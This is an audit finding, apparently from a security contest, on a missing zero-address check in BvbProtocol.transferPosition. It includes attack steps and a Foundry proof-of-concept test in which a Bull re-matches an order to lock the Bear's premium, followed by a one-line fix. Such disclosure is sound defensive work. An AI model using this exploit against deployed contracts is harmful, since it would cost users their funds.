 aviggiano

high

# `BvbProtocol.transferPosition` does not check for null `recipient`, which opens door to the Bull griefing the Bear

## Summary

`BvbProtocol.transferPosition` does not check for null [`recipient`](https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L529), which opens door to the Bull griefing the Bear. 

## Vulnerability Detail

This attack can be done with the following steps:

1. `matchOrder` is called once
2. Bull calls `transferPosition` with `recipient` equals `address(0)` (this will [wrongly consider the order as not matched](https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L759-L760))
3. `matchOrder` is repeated with the same parameters a second time. 

In this case, the Bear premium will be transferred to `BvbProtocol` twice (on steps 1 and 3), but if the contract is settled through `settleContract`, the Bear will receive only one instance of [premium + collateral](https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L402), thus having lost the premium of the second `matchOrder`. 

This griefing can be done N times, not only two. The amount griefed will be locked in `BvbProtocol` forever.

Since `order.collateral` is greater than `order.premium`, the Bear has no financial incentive to use this attack, other than griefing the Bear and making them lose money, at the expense of the Bull itself losing money too.

## Impact

For N instances of griefing:
- Bull loses N * `order.collateral`
- Bear loses N * `order.premium`

## Code Snippet

```diff
diff --git a/bvb-protocol/test/unit/SettleContract.t.sol b/bvb-protocol/test/unit/SettleContract.t.sol
index f948e53..b5b423b 100644
--- a/bvb-protocol/test/unit/SettleContract.t.sol
+++ b/bvb-protocol/test/unit/SettleContract.t.sol
@@ -99,6 +99,33 @@ contract TestSettleContract is Base {
         assertEq(weth.balanceOf(address(this)), balanceBearBefore + order.premium + order.collateral, "Asset amount should have been transfered to bear");
     }
 
+    function testGrifing() public {
+        uint balanceBearBefore = weth.balanceOf(address(this));
+        BvbProtocol.Order memory order = defaultOrder();
+
+        bytes memory signature = signOrder(bullPrivateKey, order);
+
+        uint bullPrice = (order.collateral * fee) / 1000 + order.collateral;
+        uint bearPrice = (order.premium * fee) / 1000 + order.premium;
+        uint balanceBvbBefore = IERC20(order.asset).balanceOf(address(bvb));
+        uint256 contractId = bvb.matchOrder(order, signature);
+        assertEq(IERC20(order.asset).balanceOf(address(bvb)), balanceBvbBefore + bullPrice + bearPrice, "Bvb received the correct amount of asset");
+
+        vm.prank(bull);
+        // transfer position to null address, allowing bull to match the same order once again
+        bvb.transferPosition(bytes32(contractId), true, address(0));
+
+        // match order again
+        bvb.matchOrder(order, signature);
+        assertEq(IERC20(order.asset).balanceOf(address(bvb)), 2 * (balanceBvbBefore + bullPrice + bearPrice), "Bvb received the correct amount of asset");
+        assertEq(weth.balanceOf(address(this)), balanceBearBefore - 2 * bearPrice, "Bear lost 2x the premium and will get only 1x collateral");
+
+
+        uint balanceBearBeforeSettlement = weth.balanceOf(address(this));
+        bvb.settleContract(order, tokenIdBear);
+        assertEq(weth.balanceOf(address(this)), balanceBearBeforeSettlement + order.premium + order.collateral, "Asset amount should have been transfered to bear");
+    }
+
     function testEmitSettledContract() public {
         BvbProtocol.Order memory order = defaultOrder();
```

## Tool used

Manual Review

## Recommendation

Check for invalid `address(0)` on `recipient` parameter of function `transferPosition`:

```diff
diff --git a/bvb-protocol/src/BvbProtocol.sol b/bvb-protocol/src/BvbProtocol.sol
index d793ad0..cbdbfc1 100644
--- a/bvb-protocol/src/BvbProtocol.sol
+++ b/bvb-protocol/src/BvbProtocol.sol
@@ -519,6 +519,7 @@ contract BvbProtocol is EIP712("BullvBear", "1"), Ownable, ReentrancyGuard, ERC7
      * @param recipient The address of the new owner of the position
      */
     function transferPosition(bytes32 orderHash, bool isBull, address recipient) public {
+        require(recipient != address(0), "INVALID_RECIPIENT");
         // ContractId
         uint contractId = uint(orderHash);
 
```